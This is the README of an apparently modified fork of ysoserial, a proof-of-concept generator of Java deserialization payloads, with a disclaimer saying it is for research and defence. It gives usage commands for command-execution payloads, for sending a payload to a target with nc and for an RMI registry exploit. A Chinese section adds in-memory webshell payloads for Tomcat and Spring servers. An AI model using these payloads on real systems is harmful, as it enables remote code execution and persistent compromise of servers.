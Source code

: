 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
三月 25, 2022 2:59:49 下午 org.reflections.Reflections scan
信息: Reflections took 63 ms to scan 1 urls, producing 19 keys and 159 values
     Payload               Authors                                Dependencies
     -------               -------                                ------------
     AspectJWeaver         @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1            @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                  @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1                @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure               @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1     @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils1NOCC @Y4er                                  commons-beanutils:1.9.2
     CommonsCollections1   @frohoff                               commons-collections:3.1
     CommonsCollections2   @frohoff                               commons-collections4:4.0
     CommonsCollections3   @frohoff                               commons-collections:3.1
     CommonsCollections4   @frohoff                               commons-collections4:4.0
     CommonsCollections5   @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6   @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7   @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1           @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1               @frohoff                               groovy:2.3.9
     Hibernate1            @mbechler
     Hibernate2            @mbechler
     JBossInterceptors1    @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient            @mbechler
     JRMPListener          @mbechler
     JSON1                 @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1        @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21               @frohoff
     Jython1               @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1         @matthias_kaiser                       js:1.7R2
     MozillaRhino2         @_tint0                                js:1.7R2
     Myfaces1              @mbechler
     Myfaces2              @mbechler
     ROME                  @mbechler                              rome:1.0
     Spring1               @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2               @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS                @gebl
     Vaadin1               @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1               @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## 内存马相关

着重修改`ysoserial.payloads.util.Gadgets.createTemplatesImpl`使其可以通过引入自定义class的形式来执行命令、内存马、反序列化回显。

以CommonsBeanutils1NOCC为例：

```shell
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatCmdEcho"                     # TomcatCmdEcho
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatServletMemShellFromJMX"      # TomcatServletMemShellFromJMX
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatServletMemShellFromThread"   # TomcatServletMemShellFromThread springboot也成功过
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatFilterMemShellFromJMX"       # TomcatFilterMemShellFromJMX     适用于tomcat7-9
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatFilterMemShellFromThread"    # TomcatFilterMemShellFromThread  适用于tomcat7-9 springboot也成功过
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:SpringInterceptorMemShell"         # SpringInterceptorMemShell       测试于springboot2.0.9和2.6.5 链接shell需要使用存在的路由
java -jar ysoserial.jar CommonsBeanutils1NOCC "FILE:E:\Calc.class"                      # ClassLoaderTemplate
java -jar ysoserial.jar CommonsBeanutils1NOCC "CMD:calc"                                # CommandTemplate
java -jar ysoserial.jar CommonsBeanutils1NOCC "calc"                                    # CommandTemplate                 不使用协议开头则默认为CMD:
```

shell连接使用请查看指定类。解决了request和response包装类导致冰蝎链接失败的问题，[见issue](https://github.com/rebeyond/Behinder/issues/187)。

以下受到Gadgets.createTemplatesImpl影响的gadget均需要如上方式传递参数：

1. Click1
2. CommonsBeanutils1
3. CommonsBeanutils1NOCC
4. CommonsCollections2
5. CommonsCollections3
6. CommonsCollections4
7. Hibernate1
8. JavassistWeld1
9. JBossInterceptors1
10. Jdk7u21
11. JSON1
12. MozillaRhino1
13. MozillaRhino2
14. ROME
15. Spring1
16. Spring2
17. Vaadin1


## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
